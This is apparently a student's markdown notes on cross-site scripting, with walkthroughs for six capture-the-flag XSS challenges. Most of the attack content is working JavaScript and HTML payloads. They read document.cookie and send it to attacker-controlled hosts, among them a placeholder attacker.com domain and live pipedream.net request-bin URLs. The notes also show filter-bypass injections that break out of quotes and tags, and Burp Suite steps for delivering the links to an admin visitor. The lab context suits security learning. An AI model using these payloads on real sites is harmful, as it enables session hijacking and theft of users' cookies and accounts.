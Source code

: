 # XSS
* Cross-site scripting (XSS) is a web security vulnerability that allows attackers to inject malicious code into a user's browser.

## Part 1. Report
 
## Part 2. XSS
- Working on Web Browser: JavaScript
- Working location: victim's web browser

1. Stored XSS -> Save in the server
2. Reflected XSS -> rebound from Server
3. XSS, CSRF
4. Steal cookie by using JavaScript

```javascript
var cookieData = document.cookie;
var i = new Image();
  i.src = "HTTP://normaltic.attacker.com/
  i.src = "HTTP://normaltic.attacker.com/?cookie=" + "Secret_data";
  i.src = "HTTP://normaltic.attacker.com/?cookie=" + cookieData;
```

5. VPS or requestbin - https://public.requestbin.com/r/

6. XSS
   [Common XSS Errors](https://github.com/imnarendrabhati/testing-new/blob/master/%3CIMG%20SRC%3DX%20ONERROR:JAVASCRIPT:ALERT(1)%3B%3E)

1) CTF XSS 1
- [Similiar Example](https://portswigger.net/web-security/cross-site-scripting/contexts)
- Error = Input script
- Annoucement and create content "<script>alert(1)</script>" on the subject.
- When you click it, the alert shows up.
- Instead of alert(1), put
```javascript
var i = new Image(); i.src = "HTTP://en7riltg206nc.x.pipedream.net/getCrred.php?cookie=" + cookieData;
```
- In BurpSuite, instead of alert(1), put the below code
```javascript
var cookieData = document.cookie; 
var i = new Image();
i.src = "http://enjt04rx79at.x.pipedream.net/?cookie=" + cookieData;
```
- On the admin visit url = type the address made by the attack post
- Check the flag on https://public.requestbin.com/

7. DOM Based XSS
- Create a tag by using JavaScript
- Create and execute a new script from a browser
- an XSS attack wherein the attack payload is executed as a result of modifying the DOM “environment” in the victim's browser used by the original client-side script,
- document.write = "";
- innerHTML

## Part 3. Assignment
1. Review
2. XSS CTF <br>
a. CTF XSS 2
  - Error = Showing the direct sentence on HTML
```javascript
<script>alert('x에 대한 검색 결과가 존재하지 않습니다.');</script>
```
  - Check Attack statement on search bar
```javascript
xss');alert(1);var i=('
```
  - Check Attack
```javascript
xss');var cookieData = document.cookie; var i = new Image();i.src = "http://enjt04rx79at.x.pipedream.net/?cookie=" + cookieData;var i=('
```
  - Send to repeater the POST URL to change GET method
  - Replace the Repeater on Burp Suite, working on the GET method instead of the POST method because the host gets the access
  - The GET URL inputs the admin visit URL bar
  - Check the flag on https://public.requestbin.com/

b. CTF XSS 3
  - Error = Showing ID on the URL on the personal information 
  - Check the attack possibility to change the ID on Burp Suite Request
  - Check the attack statement
```javascript
aaa"/><script>alert(1)</script>
```
  - Check the attack
```javascript
aaa"/><script>var cookieData = document.cookie; var i = new Image();i.src = "http://enjt04rx79at.x.pipedream.net/?cookie=" + cookieData;</script>
```
  - Copy GET URL and input the URL on the admin visit bar
  - Check the flag on https://public.requestbin.com/

c. CTF XSS 4
  - Error = In the board, it is possible to use special characters (<'">).
  - Check the attack possibility of using an attack statement on the board. => <script>alert(1)</script>
  - Filtering "script" and "alert", so using another attack statement => <img src=x onerror=confirm(1)> 
  - Check the attack => <img src="https://x" onerror="location.href='http://enjt04rx79at.x.pipedream.net/?cookie=' + document.cookie;">
  - Block the long subject
  - Check the attack on the content box
  - Copy URL and input the URL on the admin visit bar
  - Check the flag on https://public.requestbin.com/

d. CTF XSS 5
  - Error = In the board, it is possible to use special characters (<'">), but it converts &lt;
  - Check the attack possibility of using an attack statement on the board => <script>alert(1)</script>
  - Using the Burp Suite, the website should be intercepted step by step
  - Create a new post and forward
  - Check the attack statement => <script>var cookieData = document.cookie; var i = new Image();i.src = "http://enjt04rx79at.x.pipedream.net/?cookie=" + cookieData;</script>
  - During the intercept, change the filtered attack statement
  - Open the new post and copy the URL and input the URL on the admin visit bar
  - Check the flag on https://public.requestbin.com/

e. CTF XSS 6
  - Error = When you log in wrong, the alert pops up.
  - Check the attack possibility in the Burp Suite
  - The POST proxy sends to Repeater and changes the method to GET
  - Check special characters and it works
  - Check the attack statement => +]');alert(1)//
  - Check the attack => +]');location.href='http://enjt04rx79at.x.pipedream.net/?cookie='%2bdocument.cookie;//
  - Copy URL and input the URL on the admin visit bar
  - Check the flag on https://public.requestbin.com/

f. CTF XSS Challenge 
